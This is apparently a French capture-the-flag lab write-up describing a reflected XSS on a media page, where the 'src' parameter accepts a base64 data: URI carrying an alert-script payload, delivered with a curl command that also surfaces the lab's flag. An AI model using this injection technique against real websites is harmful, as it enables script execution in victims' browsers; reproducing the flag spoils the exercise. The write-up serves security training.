

# Vulnérabilité : XSS Reflected (Media)

## 1. Description
Une vulnérabilité de type **Cross-Site Scripting (XSS)** a été découverte sur la page de gestion des médias (`?page=media`). Le paramètre `src` est utilisé pour charger des ressources sans validation suffisante du protocole, ce qui permet à un attaquant d'injecter du contenu arbitraire via le schéma d'URI `data:`.

## 2. Découverte (Reconnaissance)
En naviguant sur le site, nous avons observé que l'URL changeait pour charger différentes images via le paramètre `src`.

* **URL observée :** `http://192.168.222.135/index.php?page=media&src=nsa`



Cette observation suggère que le paramètre `src` est directement interprété par le serveur pour inclure une ressource.

## 3. Exploitation (Proof of Concept)

### Vecteur d'attaque
Nous utilisons le wrapper `data:text/html;base64` pour injecter directement du code JavaScript encodé, contournant ainsi la nécessité d'héberger un fichier malveillant externe.

* **Payload XSS classique :** `<script>alert(1)</script>`
* **Payload encodé (Base64) :** `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

### Commande d'exploitation
L'attaque a été réalisée via `curl` pour vérifier la réponse du serveur :

```bash
curl -sG "[http://192.168.222.135/index.php](http://192.168.222.135/index.php)" \
--data-urlencode "page=media" \
--data-urlencode "src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" | findstr "flag"
```
### Résultat
Le serveur exécute le script injecté et révèle le flag de validation dans le terminal.


**Flag :** `928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d`
